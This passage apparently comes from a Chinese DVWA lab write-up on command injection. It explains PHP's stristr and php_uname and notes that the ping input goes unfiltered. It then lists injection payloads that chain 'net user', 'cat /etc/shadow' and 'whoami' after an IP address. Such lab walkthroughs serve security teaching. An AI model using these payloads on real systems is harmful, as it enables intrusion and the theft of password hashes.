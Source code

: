 
相关函数介绍 

*stristr(string,search,before_search)*

stristr函数搜索字符串在另一字符串中的第一次出现，返回字符串的剩余部分（从匹配点），如果未找到所搜索的字符串，则返回FALSE。参数string规定被搜索的字符串，参数search规定要搜索的字符串（如果该参数是数字，则搜索匹配该数字对应的ASCII值的字符），可选参数before_true为布尔型，默认为“false”，如果设置为“true”，函数将返回search参数第一次出现之前的字符串部分。

*php_uname(mode)*

这个函数会返回运行php的操作系统的相关描述，参数mode可取值”a” （此为默认，包含序列”s n r v m”里的所有模式），”s ”（返回操作系统名称），”n”（返回主机名），” r”（返回版本名称），”v”（返回版本信息）， ”m”（返回机器类型）。

可以看到，服务器通过判断操作系统执行不同ping命令，但是对ip参数并未做任何的过滤，导致了严重的命令注入漏洞

漏洞利用

window和linux系统都可以用&&来执行多条命令

```
127.0.0.1&&net user

127.0.0.1&&cat /etc/shadow

127.0.0.1&& whoami
```

![](DVWA.assets/dvwa-low-3.png)
